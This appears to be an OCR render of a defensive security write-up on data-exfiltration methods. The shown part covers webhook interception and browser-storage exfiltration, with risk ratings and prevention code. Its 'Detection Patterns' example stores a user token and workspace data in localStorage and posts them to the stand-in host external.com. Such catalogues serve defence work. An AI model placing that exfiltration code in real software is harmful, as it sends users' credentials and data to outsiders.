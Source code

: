 #### **Prevention Implementation**
```python
# Webhook interception
class WebhookInterceptor:
    def send_webhook(self, url, data, headers=None):
        if self.is_external_domain(url):
            InterceptedWebhook.objects.create(
                url=url,
                payload=json.dumps(data),
                headers=json.dumps(headers or {}),
                timestamp=timezone.now(),
                status='intercepted'
            )
            return {'status': 'success', 'intercepted': True}
        
        # Allow internal webhooks
        return requests.post(url, json=data, headers=headers)
```

---

### 10. Browser Storage Exfiltration

#### **Method Description**
Storing sensitive data in browser storage then transmitting it.

#### **Detection Patterns**
```javascript
// localStorage exfiltration
localStorage.setItem('user_token', sensitiveToken);
localStorage.setItem('workspace_data', JSON.stringify(workspaceInfo));

// Later transmission
const storedData = {
  token: localStorage.getItem('user_token'),
  workspace: JSON.parse(localStorage.getItem('workspace_data'))
};
fetch('https://external.com/collect', {
  method: 'POST',
  body: JSON.stringify(storedData)
});
```

#### **Risk Assessment**
- **Likelihood**: HIGH (Browser storage is commonly used)
- **Impact**: HIGH (Can accumulate sensitive data over time)
- **Detection Difficulty**: MEDIUM (Storage operations are not network visible)
- **Stealth Level**: HIGH (Storage operations appear normal)

#### **Prevention Implementation**
```typescript
// localStorage monitoring
const originalSetItem = localStorage.setItem;
localStorage.setItem = function(key: string, value: string) {
  if (isSensitiveData(key, value)) {
    logExfiltrationAttempt('BROWSER_STORAGE', `localStorage.${key}`, {
      key,
      value_length: value.length,
      risk_level: 'HIGH'
    });
  }
  
  return originalSetItem.call(this, key, value);
};
```